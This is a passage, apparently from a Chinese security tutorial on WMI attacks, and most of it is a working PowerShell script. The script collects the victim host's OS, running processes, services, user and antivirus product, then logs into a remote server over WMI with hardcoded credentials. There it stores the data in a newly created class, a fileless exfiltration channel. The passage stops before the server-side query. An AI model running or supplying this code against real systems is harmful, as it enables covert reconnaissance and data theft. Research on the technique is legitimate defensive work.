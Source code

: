 0x04 功能实现
=====

1、Client将本机信息发送至Server
----------------------

《WMI attacks-3、存储payload》提到，可将数据存储于此，不会留下文件，实际位于硬盘上的一个复杂的数据库中(objects.data)

**设计思路**：

```
Client获取主机配置信息-连接远程服务器-保存在远程服务器
Server读取信息

```

**实现**：

（1）Client获取主机配置信息-连接远程服务器-保存在远程服务器

Client端Powershell代码如下：

```
#连接192.168.40.206
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'a'
$Options.Password = 'testtest'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.40.206\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
#新建类名
$EvilClass['__CLASS'] = 'Win32_UserInfo'
$EvilClass.Properties.Add('IP19216840208', [Management.CimType]::String, $False)
#获取主机配置信息
$GetOS=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_OperatingSystem 
$GetProcess=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Process
$GetService=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Service -Filter "State='Running'"
$GetUser=Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_ComputerSystem
$GetAV=Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct
#注：Powershell中换行符为`n
$EvilClass.Properties['IP19216840208'].Value =           $GetUser.UserName+"`n"+"OS:"+$GetOS.Caption+";"+$GetOS.OSArchitecture+"`n"+"AntiVirusProduct:"+ $GetAV.displayName+"`n"+"Process:"+"`n"+$GetProcess.Name+"`n"+"Service Start:"+"`n"+$GetService.Name
#存储
$EvilClass.Put()

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/c5552e1f0acf347931a9ec9e3fd3884c96fb3303.jpg)

（2）Server端执行查询获取主机信息

